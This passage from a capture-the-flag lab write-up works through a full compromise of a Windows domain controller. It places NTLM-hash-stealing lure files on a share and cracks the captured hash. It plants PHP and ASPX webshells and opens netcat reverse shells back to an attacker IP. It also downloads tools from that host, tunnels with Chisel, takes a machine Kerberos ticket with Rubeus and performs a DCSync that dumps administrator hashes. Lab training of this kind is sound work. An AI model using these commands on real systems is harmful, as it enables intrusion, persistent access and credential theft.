    SMB         flight.htb      445    G0               -----           -----------     ------
    SMB         flight.htb      445    G0               ADMIN$                          Remote Admin
    SMB         flight.htb      445    G0               C$                              Default share
    SMB         flight.htb      445    G0               IPC$            READ            Remote IPC
    SMB         flight.htb      445    G0               NETLOGON        READ            Logon server share 
    SMB         flight.htb      445    G0               Shared          READ,WRITE      
    SMB         flight.htb      445    G0               SYSVOL          READ            Logon server share 
    SMB         flight.htb      445    G0               Users           READ            
    SMB         flight.htb      445    G0               Web             READ  
    

### Capture NetNTLMv2

#### Background

With write access to an otherwise empty share named `Shared`, there are files
I can drop that might entice any legit visiting user to try to authenticate to
my host. [This post](https://osandamalith.com/2017/03/24/places-of-interest-
in-stealing-netntlm-hashes/) has a list of some of the ways this can be done.
[ntlm_theft](https://github.com/Greenwolf/ntlm_theft) is a nice tool to create
a bunch of these files.

#### Upload Files

I’ll use `ntml_theft.py` to create all the files:

    
    
    oxdf@hacky$ python ntlm_theft.py -g all -s 10.10.14.6 -f 0xdf
    Created: 0xdf/0xdf.scf (BROWSE TO FOLDER)
    Created: 0xdf/0xdf-(url).url (BROWSE TO FOLDER)
    Created: 0xdf/0xdf-(icon).url (BROWSE TO FOLDER)
    Created: 0xdf/0xdf.lnk (BROWSE TO FOLDER)
    Created: 0xdf/0xdf.rtf (OPEN)
    Created: 0xdf/0xdf-(stylesheet).xml (OPEN)
    Created: 0xdf/0xdf-(fulldocx).xml (OPEN)
    Created: 0xdf/0xdf.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
    Created: 0xdf/0xdf-(includepicture).docx (OPEN)
    Created: 0xdf/0xdf-(remotetemplate).docx (OPEN)
    Created: 0xdf/0xdf-(frameset).docx (OPEN)
    Created: 0xdf/0xdf-(externalcell).xlsx (OPEN)
    Created: 0xdf/0xdf.wax (OPEN)
    Created: 0xdf/0xdf.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
    Created: 0xdf/0xdf.asx (OPEN)
    Created: 0xdf/0xdf.jnlp (OPEN)
    Created: 0xdf/0xdf.application (DOWNLOAD AND OPEN)
    Created: 0xdf/0xdf.pdf (OPEN AND ALLOW)
    Created: 0xdf/zoom-attack-instructions.txt (PASTE TO CHAT)
    Created: 0xdf/Autorun.inf (BROWSE TO FOLDER)
    Created: 0xdf/desktop.ini (BROWSE TO FOLDER)
    Generation Complete.
    

Connecting from the directory with the `ntlm_theft` output, I’ll upload all of
them to the share:

    
    
    oxdf@hacky$ smbclient //flight.htb/shared -U S.Moon 'S@Ss!K@*t13'
    Try "help" to get a list of possible commands.
    smb: \> prompt false
    smb: \> mput *
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(frameset).docx
    putting file 0xdf.jnlp as \0xdf.jnlp (0.7 kb/s) (average 0.7 kb/s)
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.asx
    putting file 0xdf.application as \0xdf.application (6.0 kb/s) (average 3.3 kb/s)
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.htm
    putting file desktop.ini as \desktop.ini (0.2 kb/s) (average 1.7 kb/s)
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.rtf
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(icon).url
    putting file 0xdf-(stylesheet).xml as \0xdf-(stylesheet).xml (0.6 kb/s) (average 1.5 kb/s)
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.wax
    NT_STATUS_ACCESS_DENIED opening remote file \zoom-attack-instructions.txt
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(includepicture).docx
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.scf
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.m3u
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(url).url
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(remotetemplate).docx
    NT_STATUS_ACCESS_DENIED opening remote file \Autorun.inf
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.pdf
    putting file 0xdf-(fulldocx).xml as \0xdf-(fulldocx).xml (156.1 kb/s) (average 40.2 kb/s)
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf-(externalcell).xlsx
    NT_STATUS_ACCESS_DENIED opening remote file \0xdf.lnk
    smb: \> ls
      .                                   D        0  Fri Oct 28 21:22:19 2022
      ..                                  D        0  Fri Oct 28 21:22:19 2022
      0xdf-(fulldocx).xml                 A    72584  Fri Oct 28 21:22:19 2022
      0xdf-(stylesheet).xml               A      162  Fri Oct 28 21:22:18 2022
      0xdf.application                    A     1649  Fri Oct 28 21:22:17 2022
      0xdf.jnlp                           A      191  Fri Oct 28 21:22:16 2022
      desktop.ini                         A       46  Fri Oct 28 21:22:17 2022
    
                    7706623 blocks of size 4096. 3748999 blocks available
    

Interestingly, a bunch are blocked. But a few do make it.

#### Responder

With `responder` still running, after a minute or two there’s a hit from
C.Bum:

    
    
    [SMB] NTLMv2-SSP Client   : ::ffff:10.10.11.187
    [SMB] NTLMv2-SSP Username : flight.htb\c.bum
    [SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:01f43be12046b7a8:8ADA90E6C9FD9597A77028B01332FA06:010100000000000080C2A3C1D8EAD801955E5614E82C877C000000000200080030004A004300330001001E00570049004E002D005200530054005200310047004200510038003600350004003400570049004E002D00520053005400520031004700420051003800360035002E0030004A00430033002E004C004F00430041004C000300140030004A00430033002E004C004F00430041004C000500140030004A00430033002E004C004F00430041004C000700080080C2A3C1D8EAD80106000400020000000800300030000000000000000000000000300000B1315E28BC96528147F3929B329DC4FE9D27ADEB96DF3BCF9F6C892CCB4443D80A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0036000000000000000000
    

### Crack NetNTLMv2

`hashcat` with `rockyou` will quickly return the password
“Tikkycoll_431012284”:

    
    
    $ hashcat c.bum-net-ntlmv2 /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    5600 | NetNTLMv2 | Network Protocol
    ...[snip]...
    C.BUM::flight.htb:4cbadadfb7c242fd:74d349be108265c9c4c7316a33e60c33:01010000000000008040c2d796e8d801454ed2f7baa7fb7e0000000002000800360037005200360001001e00570049004e002d004b0057003800490035004f00310037004d004f00310004003400570049004e002d004b0057003800490035004f00310037004d004f0031002e0036003700520036002e004c004f00430041004c000300140036003700520036002e004c004f00430041004c000500140036003700520036002e004c004f00430041004c00070008008040c2d796e8d801060004000200000008003000300000000000000000000000003000001985018316b512c9587f09b1902b462e36faed3b81122c9c08c871ae7889eda20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0036000000000000000000:Tikkycoll_431012284
    ...[snip]...
    

It works:

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u c.bum -p 'Tikkycoll_431012284'
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284
    

## Shell as svc_apache

### Webshell

#### SMB

C.Bum has write access to the `Web` share:

    
    
    oxdf@hacky$ crackmapexec smb flight.htb -u c.bum -p 'Tikkycoll_431012284' --shares
    SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
    SMB         flight.htb      445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
    SMB         flight.htb      445    G0               [+] Enumerated shares
    SMB         flight.htb      445    G0               Share           Permissions     Remark
    SMB         flight.htb      445    G0               -----           -----------     ------
    SMB         flight.htb      445    G0               ADMIN$                          Remote Admin
    SMB         flight.htb      445    G0               C$                              Default share
    SMB         flight.htb      445    G0               IPC$            READ            Remote IPC
    SMB         flight.htb      445    G0               NETLOGON        READ            Logon server share 
    SMB         flight.htb      445    G0               Shared          READ,WRITE      
    SMB         flight.htb      445    G0               SYSVOL          READ            Logon server share 
    SMB         flight.htb      445    G0               Users           READ            
    SMB         flight.htb      445    G0               Web             READ,WRITE   
    

#### Upload Webshell

I’ll start with a standard webshell, `shell.php`:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

I’ll move into the `styles` directory in `school.flight.htb`, and upload it
there:

    
    
    smb: \school.flight.htb\styles\> put shell.php
    putting file shell.php as \school.flight.htb\styles\shell.php (0.1 kb/s) (average 0.1 kb/s)
    smb: \school.flight.htb\styles\> ls
      .                                   D        0  Wed Oct 26 00:52:31 2022
      ..                                  D        0  Wed Oct 26 00:52:31 2022
      ie6.css                             A      587  Fri Dec  2 19:42:00 2011
      shell.php                           A       35  Wed Oct 26 00:52:31 2022
      style.css                           A    11045  Wed Jan 25 20:17:32 2012
    
                    7706623 blocks of size 4096. 3750883 blocks available
    

I’m using `styles` just to be a bit more hidden. The webshell works:

    
    
    oxdf@hacky$ curl school.flight.htb/styles/shell.php?cmd=whoami
    flight\svc_apache
    

### Shell

To go from webshell to shell, I’ll upload `nc64.exe` to the same folder:

    
    
    smb: \school.flight.htb\styles\> put /opt/netcat/nc64.exe nc64.exe
    putting file /opt/netcat/nc64.exe as \school.flight.htb\styles\nc64.exe (99.6 kb/s) (average 99.6 kb/s)
    

Now I’ll invoke it over the webshell:

    
    
    oxdf@hacky$ curl -G school.flight.htb/styles/shell.php --data-urlencode 'cmd=nc64.exe -e cmd.exe 10.10.14.6 443'
    

It hangs, but at a `nc` listening, there’s a shell:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.187 49897
    Microsoft Windows [Version 10.0.17763.2989]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\xampp\htdocs\school.flight.htb\styles>whoami
    flight\svc_apache
    

## Shell as C.Bum

### Enumeration

#### File System

As svc_apache, there’s not much I didn’t already have access to over SMB. The
web directories sit at `C:\xampp\htdocs`, which is common for an [XAMPP
deployment](https://www.apachefriends.org/) on Windows.

There is an `inetpub` directory at the root of `C:\`. That’s the directory IIS
typically runs from:

    
    
    C:\>dir
     Volume in drive C has no label.
     Volume Serial Number is 163B-E248
    
     Directory of C:\
    
    10/25/2022  06:22 PM    <DIR>          inetpub
    06/07/2022  06:39 AM    <DIR>          PerfLogs
    10/21/2022  11:49 AM    <DIR>          Program Files
    07/20/2021  12:23 PM    <DIR>          Program Files (x86)
    10/25/2022  05:49 PM    <DIR>          Shared
    09/22/2022  12:28 PM    <DIR>          StorageReports
    09/22/2022  01:16 PM    <DIR>          Users
    10/21/2022  11:52 AM    <DIR>          Windows
    09/22/2022  01:16 PM    <DIR>          xampp
                   0 File(s)              0 bytes
                   9 Dir(s)  15,360,438,272 bytes free
    

The `wwwroot` directory (the default server, kind of like `html` in `/var/www`
with Apache on Linux) has the default stuff in it:

    
    
    C:\inetpub\wwwroot>dir    
    dir
     Volume in drive C has no label.
     Volume Serial Number is 163B-E248
    
     Directory of C:\inetpub\wwwroot    
    
    09/22/2022  12:28 PM    <DIR>          .
    09/22/2022  12:28 PM    <DIR>          ..
    09/22/2022  12:28 PM    <DIR>          aspnet_client
    09/22/2022  12:24 PM               703 iisstart.htm
    09/22/2022  12:24 PM            99,710 iisstart.png
                   2 File(s)        100,413 bytes
                   3 Dir(s)  15,360,327,680 bytes free
    

But there is a `development` directory that looks to have a real website in
it:

    
    
    C:\inetpub\development>dir
     Volume in drive C has no label.
     Volume Serial Number is 163B-E248
    
     Directory of C:\inetpub\development
    
    10/25/2022  06:22 PM    <DIR>          .
    10/25/2022  06:22 PM    <DIR>          ..
    04/16/2018  02:23 PM             9,371 contact.html
    10/25/2022  06:22 PM    <DIR>          css
    10/25/2022  06:22 PM    <DIR>          fonts
    10/25/2022  06:22 PM    <DIR>          img
    04/16/2018  02:23 PM            45,949 index.html
    10/25/2022  06:22 PM    <DIR>          js
                   2 File(s)         55,320 bytes
                   6 Dir(s)  15,360,327,680 bytes free
    

The development directory can be written to by C.Bum:

    
    
    C:\inetpub>icacls development
    development flight\C.Bum:(OI)(CI)(W)
                NT SERVICE\TrustedInstaller:(I)(F)
                NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                NT AUTHORITY\SYSTEM:(I)(F)
                NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                BUILTIN\Administrators:(I)(F)
                BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                BUILTIN\Users:(I)(RX)
                BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    
    Successfully processed 1 files; Failed processing 0 files
    

#### Network

Looking at the listening ports, there are a lot as is standard on any DC:

    
    
    C:\xampp\htdocs\school.flight.htb\styles>netstat -ano | findstr LISTENING
      TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       5328          
      TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       676            
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       968
      TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       5328
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       968 
      TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2876
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       516
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1196
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1764
      TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       676
      TCP    0.0.0.0:49679          0.0.0.0:0              LISTENING       656
      TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       2644
      TCP    0.0.0.0:49720          0.0.0.0:0              LISTENING       2784
      TCP    10.10.10.230:53        0.0.0.0:0              LISTENING       2644
      TCP    10.10.10.230:139       0.0.0.0:0              LISTENING       4
      TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2644
    ...[snip]...
    

I’m particularly interested in the ones that I can’t reach from my VM, like
8000 (maybe the development site?).

#### C.Bum

C.Bum is a member of the WebDevs group, but not the Remote Users group:

    
    
    C:\>net user C.Bum
    User name                    C.Bum
    Full Name                    
    Comment                      Senior Web Developer
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            9/22/2022 1:08:22 PM
    Password expires             Never
    Password changeable          9/23/2022 1:08:22 PM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   9/22/2022 2:50:24 PM
    
    Logon hours allowed          All
    
    Local Group Memberships      
    Global Group memberships     *Domain Users         *WebDevs              
    The command completed successfully.
    

This means I can’t use WinRM to execute commands as C.Bum in PowerShell.

### RunasCs

The [RunasCs](https://github.com/antonioCoco/RunasCs) project aims to create a
binary like `runas.exe` but without limitations:

>   * Allows explicit credentials
>   * Works both if spawned from interactive process and from service process
>   * Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the
> creation of the new process
>   * Uses more reliable create process functions like `CreateProcessAsUser()`
> and `CreateProcessWithTokenW()` if the calling process holds the required
> privileges (automatic detection)
>   * Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no
> _UAC_ limitations)
>   * Allows to bypass UAC when an administrator password is known (flag
> –bypass-uac)
>   * Allows redirecting _stdin_ , _stdout_ and _stderr_ to a remote host
>   * It’s Open Source :)
>

It’s from one of the authors of the Potato exploits, and a really nice tool to
have.

I’ll download the latest release, host it with a Python web server, and upload
it to Flight:

    
    
    C:\ProgramData>powershell -c wget 10.10.14.6/RunasCs.exe -outfile r.exe
    

Now I’ll invoke a `cmd.exe` as C.Bun using `-r` to redirect STDIN/STDOUT to my
host:

    
    
    C:\ProgramData>.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.6:443 cmd
    [*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
    [+] Running in session 0 with process function CreateProcessWithLogonW()
    [+] Using Station\Desktop: Service-0x0-5ea78$\Default
    [+] Async process 'cmd' with pid 4508 created and left in background.
    
    C:\ProgramData>
    

With `nc` listening on my box, there’s a connection:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 444
    Connection received on 10.10.11.187 49906
    Microsoft Windows [Version 10.0.17763.2989]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    flight\c.bum
    

I can now get `user.txt`:

    
    
    C:\Users\C.Bum\Desktop>type user.txt
    ac9c5426************************
    

## Shell as defaultapppoll

### Enumeration

#### Tunnel

I’ll take a look at the development website. To do this, I’ll upload
[Chisel](https://github.com/jpillora/chisel):

    
    
    C:\ProgramData>powershell -c wget 10.10.14.6/chisel_1.7.7_windows_amd64.exe -outfile c.exe
    

Now I’ll start the server on my VM:

    
    
    oxdf@hacky$ ./chisel_1.7.7_linux_amd64 server -p 8000 --reverse
    2022/10/25 18:43:43 server: Reverse tunnelling enabled
    2022/10/25 18:43:43 server: Fingerprint 7FIbTNJUCaqUjVaTZ1TmotCwIr5DhZkAXMfU2qAdxKo=
    2022/10/25 18:43:43 server: Listening on http://0.0.0.0:8000
    

I use `-p 8000` to listen on 8000 (the default port of 8080 is already in use
by Burp), and give it `--reverse` to allow incoming connections to open
listeners on my host that tunnel back through them.

I’ll connect from Flight, tunneling port 8001 on my host through the tunnel to
8000 on Flight:

    
    
    C:\ProgramData>.\c client 10.10.14.6:8000 R:8001:127.0.0.1:8000
    2022/10/25 18:45:10 client: Connecting to ws://10.10.14.6:8000
    2022/10/25 18:45:11 client: Connected (Latency 91.5085ms)
    

#### Site

Visiting `http://127.0.0.1:8001` in Firefox returns another site:

[_Click for full image_](../img/image-20221025144631097.png)

Nothing useful on the page. There’s a `/contact.html` that doesn’t have any
useful information either.

#### Tech Stack

The response headers show that the site is hosted by IIS (rather than Apache):

    
    
    HTTP/1.1 200 OK
    Content-Type: text/html
    Last-Modified: Mon, 16 Apr 2018 21:23:22 GMT
    Accept-Ranges: bytes
    ETag: "019c25c9d5d31:0"
    Server: Microsoft-IIS/10.0
    X-Powered-By: ASP.NET
    Date: Wed, 26 Oct 2022 01:47:57 GMT
    Connection: close
    Content-Length: 9371
    

They also show `X-Powered-By: ASP.NET`. Typically that means that `.aspx` type
pages are in use.

### WebShell

#### Write File

I’ll remember that C.Bum should have write access to this directory. I’ll test
that out with a dummy file:

    
    
    C:\inetpub\development>echo "test" > 0xdf.txt
    

The text loads:

#### ASPX Echo

To see if ASPX code will run, I’ll create a silly ASPX file that writes a
string, `poc.aspx`:

    
    
    <% Response.Write("0xdf was here") %>
    

I’ll upload that over SMB, and then copy it into the `development` directory:

    
    
    C:\inetpub\development>copy \xampp\htdocs\poc.aspx .
            1 file(s) copied.
    

On visiting the page, it works:

#### Webshell

To run commands, I’ll download [this aspx
webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-
webshell/asp/cmd.aspx) from GitHub, upload it over SMB, and copy it into
place:

    
    
    C:\inetpub\development>copy \xampp\htdocs\cmd.aspx .
            1 file(s) copied.
    

Loading the page shows a form:

Clicking “Run” shows the output below:

### Shell

My copy of `nc64.exe` has long been wiped by resets, but I’ll upload it back
to `\programdata`, and then execute it via the webshell:

At my `nc` listener, I get a shell as defaultapppool:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.230 50163
    Microsoft Windows [Version 10.0.17763.2989]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>whoami
    iis apppool\defaultapppool
    

## Shell as administrator

### Strategy

`iis apppool\defaultapppool` is a Microsoft Virtual Account. One thing about
these accounts is that when they authenticate over the network, they do so as
the machine account. For example, if I start `responder` and then try to open
an SMB share on it (`net use \\10.10.14.6\doesntmatter`), the account I see
trying to authenticate is flight\G0$:

    
    
    [SMB] NTLMv2-SSP Client   : ::ffff:10.10.11.187
    [SMB] NTLMv2-SSP Username : flight\G0$
    [SMB] NTLMv2-SSP Hash     : G0$::flight:1e589bf41238cf8e:547002306786919B6BB28F45BC6EEA4F:010100000000000080ADD9B1DBEAD801A1870276D7F4D729000000000200080052004F003500320001001E00570049004E002D00450046004B004A004B0059004500500037003900500004003400570049004E002D00450046004B004A004B005900450050003700390050002E0052004F00350032002E004C004F00430041004C000300140052004F00350032002E004C004F00430041004C000500140052004F00350032002E004C004F00430041004C000700080080ADD9B1DBEAD80106000400020000000800300030000000000000000000000000300000B1315E28BC96528147F3929B329DC4FE9D27ADEB96DF3BCF9F6C892CCB4443D80A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0036000000000000000000
    

I won’t be able to crack that NetNTLMv2 because the machine accounts use long
random passwords. But it does show that the defaultapppool account is
authenticating as the machine account.

To abuse this, I’ll just ask the machine for a ticket for the machine account
over the network. I showed this same attack as an [unintended method in
PivotAPI](/2021/11/08/htb-pivotapi-more.html#dcsync).

### Get Ticket

#### Upload Rubeus

Rather than compile it myself, I’ll grab the latest compiled version of the
binary from
[SharpCollection](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/Rubeus.exe).
I’ll host it with Python HTTP, and upload it to Flight:

    
    
    c:\ProgramData>powershell wget 10.10.14.6/Rubeus.exe -outfile rubeus.exe
    

#### Generate Ticket

To create a ticket, I’ll use the `tgtdeleg` command:

    
    
    c:\ProgramData>.\rubeus.exe tgtdeleg /nowrap
    
       ______        _                      
      (_____ \      | |                     
       _____) )_   _| |__  _____ _   _  ___ 
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
    
      v2.2.0 
    
    
    [*] Action: Request Fake Delegation TGT (current user)
    
    [*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/g0.flight.htb'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: Cbjw4zyXsgSFHc11kVL3FnTW4sx6OAQPHk5odmf7Klo=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):
    
          doIFVDCCBVCgAwIBBaEDAgEWooIEZDCCBGBhggRcMIIEWKADAgEFoQwbCkZMSUdIVC5IVEKiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCkZMSUdIVC5IVEKjggQgMIIEHKADAgESoQMCAQKiggQOBIIECjn6UdEG798jPU6YXVSPRM7DcIgovjf0eeKiV3u5D6g6PaFBHdfu1NexTh+0uWik/esEMQSTxtpjJtiT9ii1dTENqXv9QscdzrveXnj4w4en8vpFarREXlJJs76oY2+91/n3b/cBGq4znlABAR9LltbxeCwRdymp2a098TVWI4CBmfGlw8BQwsvR7itZAEIIgwMgFduqHxOB3DyZEy72jpnl0PKAIzz+/0b+6kmhKKldctSMmuJP6y5IzNEfkyJXCaEY5gvpmL2YwrEdcXdIN+7ECXgf+bL6AIXF90gJFUH7ZyrV1SZtNGJrVAfur5eh1pGvZ0luk3Gp8sKtz/fwr657PYXGwBmfXeASvanAPSnmmTTiYm32AyRClTmrzfDqfiYTUoOYDka9gpcrO29oKL6Cg5IHfIdHAE8GLOsebMd6FPU+KHz9frsazFtCBMJ+qHdUXfgTHbRXibVjFK2Voc+BOsdcwxqdUm5w48V5nDuR3ZIbacD/CTtLv/9j+otdylvh5h4KxWtvE3QLUMToJSccS4MfI+dSyGX7VRWaeuKhX1GwHAJ9mE/mImi3HiFr2vRe6V/MCRTBN+QWRa+e5KK8kKM6FX13Pn74K7j1CdSwk0yCspZB0DzGkXi54YE9DsXqViOYcJfrcgf7Rb1S5KrVrlSLWmJgiUYwChLKOGugqTkIKLmSW7fxAICIpbqlqhHEoby0CWgiMeLfTgM5fZKpNH4fdidzG3T1Eb+nWO0R6e/QtF9lnhZXNYw9Xg9kqLJ5FFMEYOakXYJmUxUMIm0Nrnp8/Tt9Ac97PaxmIDzmmjKyCGTsyg03xmIRsAznsLOqi90iGeaBVRYchZDRYjXsbIvkh+XLIw8eTIZoctxjn6c4Z+JrGhHAX5CtifUOSY+lcEgOq/6phjrXViAMBodZrJz+4NYgEyeU/sOzpy8uGvKOFT8nrdWXyVKqCr5OGULmcH8IweXgzZ4PsOS0MyTsOiRIBVH1rlkiDM9r49AyP+VKRDAt0or73vZCRVVjAw6fB3TYGNS8Q5xhylM+xB/1j2N2oM7yE5N6bTwWJ/nIEPYdC7moEriTswGzPC1kqbnggVnybqIdAu9OtrW3vkSPKJWTRix+fcDA6ZIbzYgMdAH3xd/qYA/aIeJYA4d47hN4qz9zkYMZbmwmUpDGX3+scEmwupBDaqMR4TlQ3Vk9oZfqnB4DhbKKuOqx3Bz4d5sOu90aoH4WsDjY/PuHz29ztdu1jNQc+PIlnKma7+38dMGLIxylq7dxY6OzBsGH3brfgALcMPeVnjS6aSSCNQxiN+g78+NiptqRJKHgzd6+Tpj9rvlXsmg/iXDt5RPsuC8GcXnAHypJIDRpxPvyAlWsSHAmOO8R2x+Vo4HbMIHYoAMCAQCigdAEgc19gcowgceggcQwgcEwgb6gKzApoAMCARKhIgQgMVfY/Ib27p/MjwktFL3vN0Bba/Ah/8n+o2KYBcWHDPChDBsKRkxJR0hULkhUQqIQMA6gAwIBAaEHMAUbA0cwJKMHAwUAYKEAAKURGA8yMDIyMTAyODIxNDczNVqmERgPMjAyMjEwMjkwNzQ3MzVapxEYDzIwMjIxMTA0MjE0NzM1WqgMGwpGTElHSFQuSFRCqR8wHaADAgECoRYwFBsGa3JidGd0GwpGTElHSFQuSFRC
    

### DCSync

#### Configure Kerberos Ticket

With a ticket for the machine account, I can do a DCSync attack, effectively
telling the DC that I’d like to replicate all the information in it to myself.
To do that, I’ll need to configure Kerberos on my VM to use the ticket I just
dumped.

I’ll decode the base64 ticket and save it as `ticket.kirbi`. Then
`kirbi2ccache` will convert it to the format needed by my Linux system:

    
    
    oxdf@hacky$ kirbi2ccache ticket.kirbi ticket.ccache 
    INFO:root:Parsing kirbi file /media/sf_CTFs/hackthebox/flight-10.10.11.187/ticket.kirbi
    INFO:root:Done!
    

Now I’ll export the environment variable to hold that ticket:

    
    
    oxdf@hacky$ export KRB5CCNAME=ticket.ccache 
    

#### Time Issues

It’s really common when doing these kinds of attacks to run into time issues.
When I run `secretsdump.py` from
[Impacket](https://github.com/SecureAuthCorp/impacket) to dump all the hashes
from the DC, it fails:

    
    
    oxdf@hacky$ secretsdump.py -k -no-pass g0.flight.htb 
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Cleaning up... 
    

It suggests adding `-just-dc-user`:

> -just-dc-user USERNAME Extract only NTDS.DIT data for the user specified.
> Only available for DRSUAPI approach. Implies also -just-dc switch

I’ll go for administrator, but it still fails:

    
    
    oxdf@hacky$ secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    [-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    [*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
    [*] Cleaning up... 
    

Here’s the real issue - `KRB_AP_ERR_SKEW`.

#### Fix Time

I’ll fix the time with `ntpdate`, telling it to set my time to the NTP server
on Flight:

    
    
    oxdf@hacky$ sudo ntpdate -s flight.htb
    

This will likely drop my VPN connection, but after reconnecting, I can dump
the hashes:

    
    
    oxdf@hacky$ secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:08c3eb806e4a83cdc660a54970bf3f3043256638aea2b62c317feffb75d89322
    Administrator:aes128-cts-hmac-sha1-96:735ebdcaa24aad6bf0dc154fcdcb9465
    Administrator:des-cbc-md5:c7754cb5498c2a2f
    [*] Cleaning up...
    

It works now without `-just-dc-user` as well:

    
    
    oxdf@hacky$ secretsdump.py -k -no-pass g0.flight.htb 
    Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation
    
    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
